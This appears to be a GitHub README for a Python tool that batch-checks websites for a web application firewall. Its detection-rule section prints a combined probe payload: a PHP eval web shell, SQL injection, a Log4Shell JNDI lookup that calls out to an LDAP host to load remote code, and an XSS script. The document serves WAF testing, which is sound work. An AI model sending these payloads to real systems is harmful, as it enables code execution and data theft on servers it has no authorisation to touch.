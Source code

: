 # check-waf
批量检查站点是否存在waf

## how to use
python3 check-waf.py urls.txt

## 说明
默认生成的Excel表格名字为：{txt文件名}\_waf_results\_{当前时间}.xlsx

## 检测规则
![image](https://github.com/Huck-Lin/check-waf/assets/36686730/71592190-eefe-49f0-903f-9766ed73604c)
payload：`?a=<%3fphp+%40eval($_GET['cmd'])%3b%3f>%26b%3d1'+or+'1'%3d'1&c=${jndi%3aldap%3a//10.0.0.1%3a8080/Exploit}&s=<script>alert(1)</script>&id=UNION+SELECT+ALL+FROM+information_schema+AND+'+or+SLEEP(5)+or+'`
